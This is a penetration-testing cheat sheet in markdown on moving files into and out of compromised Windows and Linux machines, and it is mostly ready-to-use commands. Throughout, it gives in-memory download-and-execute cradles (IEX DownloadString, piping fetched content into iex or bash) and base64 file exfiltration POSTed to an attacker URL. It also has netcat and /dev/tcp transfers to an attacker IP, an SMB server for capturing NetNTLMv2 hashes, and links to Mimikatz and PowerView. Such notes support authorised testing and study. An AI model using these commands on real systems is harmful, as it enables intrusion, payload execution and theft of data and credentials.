

# File Transfers

## Windows

### Downloads 

#### Powershell (via HTTP)

> `iwr`, `curl`, and `wget`

Any version of `Powershell`:

```powershell
(New-Object System.Net.WebClient).DownloadFile('<URL>',"<DEST_FILEPATH>") # DEST_FILEPATH could be "C:\Users\Public\Downloads\PowerView.ps1" for instance
```

From `PowerShell 3.0`:

```powershell
Invoke-WebRequest <URL> -OutFile <DEST_FILEPATH>

# Using Chrome as user agent
Invoke-WebRequest <URL> -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile <DEST_FILEPATH>
```

Instead of downloading to disk, the payload can instead be executed in memory:

```powershell
IEX (New-Object Net.WebClient).DownloadString('<URL>')

# or directly with a pipeline
Invoke-WebRequest <URL> | iex
```

If we encounter, the error below, we can bypass it with the following flag `-UseBasicParsing`:



```powershell
Invoke-WebRequest <URL> -UseBasicParsing | iex
```

#### Bitsadmin

```powershell
bitsadmin /transfer n <URL> <DEST_FILEPATH>

# or by interacting with powershell
Import-Module bitstransfer;Start-BitsTransfer -Source "<URL>" -Destination "<DEST_FILEPATH>"
```

#### Certutil

> Antimalware Scan Interface (**AMSI**) currently detects the following command as malicious certutil usage

```cmd
certutil.exe -verifyctl -split -f <URL>
```

#### Web server

With administrative access to a Windows machine, IIS can be easily installed:

```powershell
PS C:\htb> Add-WindowsFeature Web-Server, Web-Mgmt-Tools
```

#### Miscellaneous

- Powershell: `Copy-Item`, `Set-Content`, `xcopy`, **mounting drives**
- RDP
- Echo copying files and [UPX](https://github.com/upx/upx/releases)

___

### Uploads

#### Powershell (via HTTP)

```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE_PATH>' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri <ATTACKER_URL> -Method POST -Body $b64
```

> On Linux, we can use ` echo <base64> | base64 -d -w 0 > <output_filename>`

#### Powershell (via Bitsadmin)

```powershell
Start-BitsTransfer "<DEST_FILEPATH>" -Destination "<URL>" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Useful URLs

- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
- https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
- [DownloadCradles.ps1](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
- [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1)
___

## Linux

### Classical commands

```bash
wget <URL> -O <DEST_FILEPATH>

curl -o <DEST_FILEPATH> <URL>
```

### `/dev/tcp`

```bash
exec 3<>/dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT>
echo -e "GET /<FILENAME> HTTP/1.1\n\n">&3
cat <&3
```

### openssl

```bash
# create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# stand up server
openssl s_server -quiet -accept <PORT> -cert certificate.pem -key key.pem < <FILEPATH>

# Download file
openssl s_client -connect <ATTACKER_IP>:<PORT> -quiet > <FILEPATH>
```

### PHP

```bash
# file_get_contents()
php -r '$file = file_get_contents("<URL>"); file_put_contents("<FILENAME>",$file);'

# fopen()
php -r 'const BUFFER = 1024; $fremote = 
fopen("<URL>", "rb"); $flocal = fopen("<FILENAME>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

# php-curl
php -r '$rfile = "<URL>"; $lfile = "<FILENAME>"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'

##  retrieve each line
php -r '$lines = @file("<URL>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

### Python2

```bash
python2 -c 'import urllib; urllib.urlretrieve("<URL>", "<FILENAME>")'
```

### Python3

```bash
# Download HTTP
python3 -c 'import urllib.request; urllib.request.urlretrieve("<URL>", "<FILENAME>")'

# Host a FTP server
python3 -m pyftpdlib --user=<USERNAME> --password=<PASSWORD> -w
```

> Obviously, other programming languages can be used such as 

### Web servers

```bash
# python2 
python -m SimpleHTTPServer 8080

# python3
python3 -m http.server 8080

# ruby
ruby -run -ehttpd . -p8080

# php
php -S 0.0.0.0:8080

# socat
socat TCP-LISTEN:8080,reuseaddr,fork
```

### Impacket

#### SMB

> It has the bonus that it will display a NetNTLMv2 hash that, if successfully cracked, will reveal the password

```bash
/usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <location>
```

### Netcat

#### Initiated by an attacker

```bash
# Attacker
nc -nlvp <PORT> > <FILENAME>

# Target
nc -nv <ATTACKER_IP> <ATTACKER_PORT> < <FILEPATH>

# or
cat < /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> > <FILEPATH>
```

#### Initiated by target

```bash
# Attacker
nc -nv <IP> <PORT> > <FILENAME>

# Target
nc -nlvp <PORT> < <FILENAME>
```

### Useful URLs

- https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

___

## Hybrid solutions

### SCP

`OpenSSH` has been included in Windows 10 and Windows Server 2019 since Autumn 2018. We can install it using this [tutorial](https://docs.microsoft.com/en-us/windows-server/administration/openssh/openssh_install_firstuse)

```bash
# Upload
scp <FILEPATH> <USER>@<IP>:<FILEPATH>

# Download
scp <USER>@<IP>:<FILEPATH> <FILEPATH>
```

> On older Windows systems, the PuTTY Secure Copy client (pscp.exe) can be used.

### OpenSSL

```bash
# Encoding
openssl.exe enc -base64 -in <INFILE> -out <OUTFILE>

# Decoding
openssl.exe enc -base64 -d -in <INFILE> -out <OUTFILE>
```

### (T)FTP

Windows 10 includes a native FTP client, which can also read commands from a script to work in a non-interactive shell.

The TFTP client is not available by default in Windows, but it can be enabled using DISM.

### Useful links

- [How to download files from command line in Windows like wget or curl?](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068#answer-536400)
